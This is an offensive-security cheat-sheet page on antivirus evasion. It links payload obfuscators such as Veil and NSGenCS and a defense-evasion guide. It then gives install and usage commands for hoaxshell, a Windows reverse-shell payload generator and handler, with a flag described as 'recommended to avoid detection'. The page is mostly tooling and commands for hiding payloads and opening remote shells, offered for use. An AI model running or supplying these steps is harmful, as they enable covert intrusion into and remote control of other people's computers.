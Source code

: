 # Antivirus

## Obfuscated payloads

{% embed url="https://github.com/t3hbb/NSGenCS" %}

{% embed url="https://github.com/Veil-Framework/Veil" %}
Veil is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.
{% endembed %}

{% embed url="https://www.ired.team/offensive-security/defense-evasion" %}
Check these
{% endembed %}

## HoaxShell

{% embed url="https://github.com/t3l3machus/hoaxshell" %}

> hoaxshell is a Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.

```bash
# install
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py

# usage 
# recommended to avoid detection
python3 hoaxshell.py -s <your_ip> -i -H "Authorization"
```
